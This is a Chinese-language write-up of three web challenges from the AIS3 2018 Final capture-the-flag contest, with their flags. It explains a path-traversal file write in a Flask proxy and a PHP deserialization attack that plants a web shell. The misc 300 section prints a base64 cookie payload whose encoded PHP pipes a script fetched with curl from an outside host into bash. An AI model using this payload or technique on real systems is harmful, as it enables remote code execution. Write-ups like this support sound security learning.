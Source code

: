 # AIS3 2018 Final

## web 100

這題就是他會告訴你下一個HTTP Method要送啥

你送過去，他就噴給你flag的一個字元

就把它噴完吧

`AIS3{HtTpMe5h0dI5FunaNdGo0DXDdDdDDDx!}`

## web 200

這題是Flask題目

他的架構是Reverse Proxy

Client送出request後，Server會再把request發出去 (以這題來說，他是發給自己)

然後Server拿到Response，會先log起來，再回傳給Client

這邊`write_to_file`裡面的os.join沒有嚴格處理好，`clean_url()`可以塞`../`

所以我們就能控制寫檔的路徑惹

而且這邊內容由於會被覆寫，所以只會寫入最後的`r.content`，也就是`QAQ`

然後FLAG要在我們送`ADMIN` method，且指定路徑的檔案內容跟我們送過去的POST data一樣才會噴出來

但這邊路徑沒辦法`../`，我們只能比對`password/`下的內容

所以我們最後可以送`GET /../../../password/kaibro`，他就會把`QAQ`寫到`password/kaibro`

訪問`ADMIN /kaibro`，並POST帶上`QAQ`就能拿到FLAG惹

`AIS3{f1aSk_pr0Xy_5Erver_15_N1Ce!!}`

## misc 300

這題其實是純Web

題目進去是個Web介面，會顯示一頂帽子和一個輸入框

可以輸入色碼，他會改變帽子顏色

稍微踹一下可以發現有`.git`

然後可以還原Source Code

他裡頭在做的事是，他會取出`$_COOKIE['hat_profile']`，然後去`base64_decode()`

最後再`unserialize()`

所以這邊就有一個反序列化漏洞

我們可以控到裡面的`UserProfile`這個class的變數值

裡頭有兩個變數，一個是記錄要寫檔的路徑，一個是記錄內容

但困難點是，雖然內容控得到，但`file_put_contents`的時候，會強制在前面加上`<?php die('Access Denied'); ?>`

所以就得想辦法繞過這個限制，不然我們後面塞啥都不會被執行

這裡用到的trick是，`file_put_contents`第一個參數可以用`php://filter`

這邊我用`rot13`把Access Denied那一段轉成不會被解析的文字

最後，把後面內容控成我們要的內容即可(兩次rot13會還原)

流程就是：先把payload序列化，再base64 encode，最後塞進cookie，然後訪問就會寫檔惹，接著就拿shell

Payload:

`TzoxMToiVXNlclByb2ZpbGUiOjI6e3M6MTc6InNldHRpbmdfc2F2ZV9wYXRoIjtzOjUxOiJwaHA6Ly9maWx0ZXIvd3JpdGU9c3RyaW5nLnJvdDEzL3Jlc291cmNlPXNoZWxsMy5waHAiO3M6MTc6IgBVc2VyUHJvZmlsZQBkYXRhIjthOjI6e3M6MzoiaGF0IjtzOjE6ImEiO3M6NDoiaGF0MiI7czo0NjoiPD9jdWMgZmxmZ3J6KCdwaGV5IHhudm9lYi5nai9ufG9uZnUnKTs/Pnhudm9lYiI7fX0=`

`AIS3{Conquer_The_World}`
